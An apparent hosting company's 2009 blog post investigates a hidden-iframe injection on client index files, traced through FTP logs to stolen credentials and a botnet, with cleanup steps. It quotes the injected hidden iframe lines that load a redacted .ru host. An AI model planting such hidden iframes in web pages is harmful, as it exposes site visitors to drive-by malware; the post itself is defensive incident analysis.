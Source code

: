 ```yaml
---
published: true
author: max-veprinsky
date: '2009-09-21 15:17:56'
layout: post
slug: iframe-injection-attack-investigation
status: publish
title: Iframe injection attack investigation
wordpress_id: '874'
categories:
- hosting
- Security
---
```


The whole hidden IFRAME vulnerability has been going on for some time, only a few of our client have been effected by this. The net is still buzzing with this issue and while some are saying that the injection are results of php insecurities, mysql injection or cross site scripting, while others point to key loggers and hijacked ftp credentials. In our case the exploit was not due to an application vulnerability but rather to hijacked ftp login information. Brute force password guessing attacks were not performed on this account nor any other accounts on the same server. In this particular type of attack, at the very end of index.php/index.html an IFRAME statement was appended overwriting page closing tags.

`iframe src="http://***.ru:8080/index.php" width=111 height=162 style="visibi
iframe src="http://***.ru:8080/index.php" width=136 height=162 style="visibility: hidden" /iframe
iframe src="http://***.ru:8080/index.php" width=141 height=156 style="visibility: hidden" /iframe`

Some of the index.php files had multiple IFRAME statements appended to the end. Knowing the username of affected account and affected filename I searched in /var/log/messages for any related entries and hit jackpot:

`Aug 27 01:27:59 web152 pure-ftpd: (?@94.218.69.243) [INFO] user is now logged in
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [NOTICE] /home/user//public_html/index.php downloaded  (2311 bytes, 1001.70KB/sec)
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [INFO] Logout.
Aug 27 01:28:04 web152 pure-ftpd: (?@78.92.144.185) [INFO] user is now logged in
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [NOTICE] /home/user//public_html/index.php uploaded  (2353 bytes, 10.42KB/sec)
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [INFO] Logout.`

What's interesting to note here is that even though downloading/uploading of index.php happens within a 6 second window, the source ip address for download and upload are not the same. During the next few days the same file is downloaded and uploaded but never from the same set of ip addresses. During the few days that I was allowing this to happen as I was monitoring said activity and collecting the IP addresses to see if a pattern emerges:

`83.82.57.39 GeoIP Country Edition: NL, Netherlands
95.52.163.74 GeoIP Country Edition: RU, Russian Federation
189.122.164.40 GeoIP Country Edition: BR, Brazil
69.159.47.21 GeoIP Country Edition: CA, Canada
85.221.184.164 GeoIP Country Edition: PL, Poland
98.243.198.220 GeoIP Country Edition: US, United States
78.30.154.22 GeoIP Country Edition: RS, Serbia
77.81.33.229 GeoIP Country Edition: RO, Romania
83.6.73.91 GeoIP Country Edition: PL, Poland
190.198.3.27 GeoIP Country Edition: VE, Venezuela
75.208.130.92 GeoIP Country Edition: US, United States
68.84.202.157 GeoIP Country Edition: US, United States
75.80.81.104 GeoIP Country Edition: US, United States`

Seeing that no clear pattern is evident here and considering that the IP address was different for each connection it is my rationale that the computer's at these IP addresses were a part of a botnet. My assumption is that a developer had saved the account password and was infected by malicious software which was able to gather the ftp credentials.

Cleanup included restoring files and changing all account/ftp/email and database passwords.
